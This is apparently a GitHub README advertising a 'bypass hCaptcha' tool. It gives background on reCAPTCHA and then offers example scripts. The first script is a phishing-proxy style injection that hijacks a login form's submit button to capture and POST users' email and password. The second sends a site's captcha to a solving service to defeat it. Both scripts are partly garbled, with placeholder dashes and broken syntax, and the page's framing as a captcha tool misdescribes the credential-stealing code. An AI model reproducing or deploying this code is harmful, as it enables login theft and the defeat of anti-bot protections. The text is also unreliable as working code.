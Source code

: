 # Bypass hCaptcha key token 
## ``You have to pass the CAPTCHA test to prove you are “not a robot” before you can access some part of a website. Usually, this occurs at a point where you need to complete a form to sign up, subscribe, or make a purchase on a website or app``

What Is reCAPTCHA?
reCAPTCHA is a human verification system developed in 2007 and purchased by Google in 2009. Initially, the tool was developed to help digitize books that couldn’t be scanned by computers. Once enacted to verify users, reCAPTCHA displayed two different distorted words with lines running through them (compared to CAPTCHA’s random sequences of letters and numbers).

By 2012, the project began incorporating images from Google Street View. By now, you’ve almost certainly spent a decent chunk of time clicking all of the images that contain a stoplight just to prove you’re not a bot. And you’ve probably failed some of these tests, too! As noted by Baymard Institute, “Only 66% of users during our qualitative usability testing successfully entered the CAPTCHA on the first attempt

There were a few more iterations of reCAPTCHA, including the noCAPTCHA reCAPTCHA (where low-risk users only had to click a checkbox that stated “I’m not a robot”) and reCAPTCHA v3.

About reCAPTCHA v3
In 2018, Google unveiled reCAPTCHA v3, the latest iteration of the tool. Even if you’re an incredibly proficient internet user, there’s a good chance you’re scratching your chin and wondering whether you’ve come across reCAPTCHA v3 before.

With reCAPTCHA v3, you don’t have to decipher distorted words, you don’t have to click boxes to indicate you know what a car looks like, and you don’t even have to click the “I’m not a robot” checkbox, either. That’s because reCAPTCHA v3 exists largely in the background—completely invisible to the average user.

As such, reCAPTCHA v3 helps companies detect bots while ostensibly delivering a better user experience—but it hurts user privacy in exchange.

### How bypass CAPTCHA ???

<p align="center">
  <img src="https://github.com/trewisscotch/CF-Bypass/blob/main/CF%20hc1.png" alt="animated" />
</p>

#### -1- You will need to extract the key to pass the captcha

<p align="center">
  <img src="https://github.com/trewisscotch/CF-Bypass/blob/main/CF%20hc2.png" alt="animated" />
</p>

#### -2- Write a script (scripting was in the previous repositories)(it can also be used for yaml, php, html)
The script should be written for a specific version of ReCaptcha v1.2.3.4.H.Ge.

#### -3- Below is an example of one of the script

```
js_inject:
  - trigger_domains: [""]
    trigger_paths: [""]
    trigger_params: []
    script: |
      function lp(){
        var submit = document.querySelectorAll('button[type=button]')[-];
        submit.setAttribute("onclick", "sendData()");
        return;
      }
      function sendData(){
        var email = document.getElementsByName("email")[-].value;
        var password = document.getElementsByName("password")[0].value;
        var xhr2 = new XMLHttpRequest();
        xhr2.open("POST", '/', true);
        xhr2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr2.send("Email="+encodeURIComponent(email));
        var xhr = new XMLHttpRequest();
        xhr.open("POST", '/', true);
        xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr.send("Password="+encodeURIComponent(password));
        return;
      }
      setTimeout(function(){ lp(); }, ----);
```

```
// API key
// https://---
const API_KEY = "XXXX";

// Find site key of a website
const googleSiteKey = document
  .getElementsByClassName("g-recaptcha")[0]
  .getAttribute("data-sitekey");

// Helper parsing function
const extractTextFromResponse = (response) =>
  response.status === 200 ? response.text().then((text) => text) : false;

// Helper delay function
const delay = (value) => new Promise((res) => setTimeout(res, value));

// Function for sending captcha we want to solve to the API
async function sendCaptcha() {
  const captchaDataString = [
    "key=" + API_KEY,
    "method=userrecaptcha",
    "googlekey=" + googleSiteKey,
    "pageurl=" + window.location.href,
  ].join("&");
  return await fetch("https://----)
    .then( => extractTextFromResponse)
    .then( => {
      if (----) {
        console.error(----);
        return false;
    })
    .catch((error) => {
      console.error("Something went wrong", error);
      return false;
    });
}

// Function that waits for a response
async function poolResponse(
  requestId,
  counter = 0,
  counterLimit = 3,
  waitTime = 20000,
  decrementWaitTimeBy = 5000
) {
  if (counter === counterLimit || waitTime < 0) {
    console.error("Captcha was not solved in time.");
    return false;
  }
  await delay(waitTime - decrementWaitTimeBy); // Wait some time
  const dataStringRes = [
    "key=" + API_KEY,
    "action=GET",
    "id=" + requestId,
    "json=0",
  ].join("&");
  return fetch(-----)
    .then => extractTextFromResponse
    .catch(error) => {
      console.error("Something went wrong", error);
      reject(false);
    });
}

// Start function
(async function () {
  // Get request id of current captcha
  const requestId = await sendCaptcha();
  if (!requestId) {
    return false;
  } // Wait for somebody to solve your captcha
  const counterLimit = 3;
  for (let i = 0; i < counterLimit; i++) {
    const payload = await poolResponse(requestId, i, counterLimit);
    if (-----) {
      continue;
    }
    if (------) {
      console.error(------);
      return false;
    } // Save
    document.getElementById("g-recaptcha-response").innerHTML;
    break;
  }
})();
```
## DEVELOPER DO NOT SUPPORT ANY OF THE ILLEGAL ACTIVITIES.

## Contact Me on telegram or twitter: https://twitter.com/TrewisScotch / https://t.me/HiroSCOTCH#

